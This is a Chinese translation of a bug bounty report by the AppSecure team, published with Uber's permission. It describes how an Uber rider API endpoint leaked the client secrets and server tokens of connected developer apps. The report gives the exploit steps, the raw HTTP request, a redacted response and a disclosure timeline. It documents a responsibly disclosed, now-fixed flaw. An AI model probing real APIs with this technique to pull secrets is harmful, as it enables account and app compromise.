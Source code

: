 # 赏金报告:我们如何发现优步的开发者应用程序泄露客户机密和…

> 原文：<https://www.freecodecamp.org/news/leakage-of-client-secret-server-tokens-of-all-uber-developer-applications-657d9d7fd30e/>

通过 AppSecure

# 赏金报告:我们是如何发现优步的开发者应用程序泄露客户机密和服务器令牌的

![uhWbVojXV91z9xArjVCcAUqL7hDwS2rsYSx4](img/8811bbb3ea24a74e27afe29220752ea2.png)

Photo by [John Petalcurin](https://unsplash.com/photos/mHx5LAKkkMo?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) on [Unsplash](https://unsplash.com/search/photos/computer?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)

根据负责任的信息披露政策，经优步许可，本文得以出版。

这篇博文中详细描述的漏洞是由 [AppSecure](https://appsecure.in) 团队的[阿南德·普拉卡什](https://twitter.com/sehacure)和[玛尼莎·桑万](https://www.linkedin.com/in/manisha-sangwan-98b9244a/)披露的。优步的工程小组很快堵住了这个漏洞。

这篇文章是关于 riders.uber.com 上的一个信息泄漏漏洞，其中我们发现了一个名为[https://riders.uber.com/profile](https://riders.uber.com/profile)的公共 API 端点，它可以为帐户所有者授权访问其优步帐户的应用程序发回服务器令牌和客户端机密。

根据优步的[文件](https://developer.uber.com/docs/businesses/guides/authentication):

> *“你的应用程序的秘密，这应该像你的应用程序的密码一样对待。不要与任何人分享，不要把它签入源代码，也不要在任何公共论坛上发表。此外，这不应该分布在客户端设备上，用户可以反编译您的代码和访问的秘密。如果您怀疑您的 client_secret 已经泄露，您可以在您的应用程序的仪表板中生成一个新的，这将立即使旧的机密无效。”*

攻击者可以通过将其帐户连接到生产环境中的任何优步应用程序，然后使用配置文件端点在 API 响应中检索所连接应用程序的服务器令牌和客户端机密，来轻松利用这一点。

据报道，优步已通过从 API 响应中删除此数据修复了此问题。优步公开向所有开发者通报了这一漏洞，并要求开发者定期轮换机密。

![OMCDfDQdImuNb4ruNqBPwCGX5wlb6i19ufET](img/c98e7268407821ae5078200b3b3e8f16.png)

Notification sent by Uber to developers.

### 关于优步

优步是一家运输网络公司(TNC ),总部位于加利福尼亚州的三藩市。优步提供的服务包括点对点拼车、出租车叫车、送餐和自行车共享系统。该公司在全球 785 个大都市地区开展业务。根据彭博的报告，优步的估值超过 1000 亿美元。

### 我的利用是如何一步一步实现的

#### 第一步

攻击者使用 OAuth 将一个随机的优步开发人员应用程序连接到他们的帐户。优步开发者应用的几个例子是 [IFTTT](https://eng.uber.com/ifttt-uber-automation/) 、 [Payfare](https://uber-developers.news/uber-and-payfare-partner-to-pay-driver-partners-right-away-eec7a1f5335c?source=rss----49ee238f1dea---4&gi=e6336207cb0e) 和 [Bixby](https://uber-developers.news/uber-and-samsung-team-up-to-leverage-contextual-awareness-on-galaxy-s8-and-s8-935f5b5dbab8) 。到目前为止，这还不是一个复杂的过程。

#### **第二步**

一旦上述应用程序被攻击者连接到他们的优步帐户，他们就可以针对端点使用，使用攻击者的会话数据来获取开发人员应用程序的机密数据和应用程序的其他重要信息。

**易受攻击的优步 API:**

`POST /api/getAuthorisedApps HTTP/1.1`
`Host: riders.uber.com`
`User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:62.0) Gecko/20100101 Firefox/62.0`
`Accept: */*`
`Accept-Language: en-US,en;q=0.5`
`Accept-Encoding: gzip, deflate`
`Referer: [https://riders.uber.com/profile](https://riders.uber.com/profile)`
`content-type: application/json`
`x-csrf-token: XXX`
`origin: [https://riders.uber.com](https://riders.uber.com)`
`Content-Length: 2`


**API 响应中数据泄露:**

`{“status”:”success”,”data”:{“data”:{“uuid”:”xxxx”},”clientScopes”:{“authorizedClientScopes”:[{“clientID”:”xxx”,”scopes”:[“history”,”offline_access”,”profile”]}]},”scopeDetails”:[{“applicationDetails”:{“applicationID”:”xxx”,”owner”:{“userUUID”:”xxxx”,”userEmail”:””},”applicationSecret”:”xxx”,”name”:”xxx”,”description”:”abc”,”privacyPolicyURL”:”[https://appsecure.in](https://appsecure.in)","surgeConfirmedRedirectURI":"","webhookURL":"","applicationType":"","requestsPerHour":{"low":0,"high":0,"unsigned":false},"redirectURIs":["xxxxxx"],"appSignatures":[],"defaultScopes":["history","profile"],"whitelistedScopes":[],"originURIs":[],"serverTokens":["xxx"],"ipWhitelist":[],"admins":[{"userUUID":"xxxx","userEmail":""},{"userUUID":"xxxx","userEmail":""},{"userUUID":"xxxx","userEmail":""}],"developers":[{"userUUID":"xxxx","userEmail":""}],"tags":[],"oauthEnabled":false,"smsVerificationEnabled":false,"cobrandingEnabled":false,"supplyOnly":false,"isInternal":true,"cobrandingDetails":{"nativeURL":"","androidFallbackURL":"","iosFallbackURL":"","displayName":"","linkName":"","logoUUID":"","logoFiletype":"","generatedLogoURL":""},"availableScopes":["delivery","history","history_lite","places","profile","ride_widgets"],"openScopes":["delivery","history","history_lite","places","profile","ride_widgets"],"developerScopes":["all_trips","request","request_receipt"],"createdAt":{"low":xxx,"high":0,"unsigned":false},"updatedAt":{"low":xxx,"high":0,"unsigned":false},"displayName":null,"iconURL":null,"publicDescription":null,"appGalleryDetails":{"mobilePlatforms":[],"publicationState":"","redirectURI":"xxxx","permissionState":""}},"permissions":null,"userRoleInvitations":null}]}}`

#### **披露时间表**

**2018 年 10 月 5 日:**报告发送给优步的安全团队。

**2018 年 11 月 6 日:**问题由优步解决。AppSecure 要求优步通知所有开发者，以防他们的应用程序秘密不再保密。我们验证了修复。

2018 年 12 月 20 日:优步回答说，“他们正在通知开发商，并为这个问题制定长期解决方案。”

2019 年 2 月 8 日:优步奖励了我们 5000 美元，并通过电子邮件通知了所有开发者。在采取行动后，该问题被公开披露。